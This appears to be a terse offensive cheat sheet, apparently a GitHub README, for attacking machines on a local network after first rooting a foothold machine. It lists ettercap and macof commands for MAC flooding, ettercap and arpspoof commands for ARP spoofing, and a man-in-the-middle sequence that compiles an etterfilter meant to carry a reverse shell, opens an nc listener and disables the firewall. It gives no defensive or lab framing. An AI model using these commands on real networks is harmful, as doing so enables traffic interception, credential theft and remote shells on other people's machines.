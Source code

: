 ### Tools: Ettercap, macof, ip, nmap, ping

## Requirements: Root the machine that has access to more machines on its network, then scan with a port scanner (nmap)

# MAC FLODDING

#### ettercap -T -i INTERFACE -P rand_flood -q -w /tmp/tcpdump3.pcap

#### macof -i INTERFACE

# ARP SPOOFING

#### ettercap -T -i INTERFACE_2 -M arp

# MAN IN THE MIDDLE MANIPULATION

#### 1) Create a filter (preferably a reverse shell)

#### 2) Compile it with etterfilter

#### etterfilter example.ecf -o example.ef

#### 3) nc -lvnp PORT &

#### 4) ufw disable

#### 5) ettercap -T -i INTERFACE_2 -M arp -F example.ef

# MITM EXAMPLE 2
 
#### 1) sudo arpspoof -i INTERFACE -t TARGET_MACHINE DEFAULT_GATEWAY

#### 2) sudo wireshark (Capture live packets)

#### 3) Filter on wireshark on what traffic you want to capture

## TIP: Attacker and target should be connected in the same network for this to work
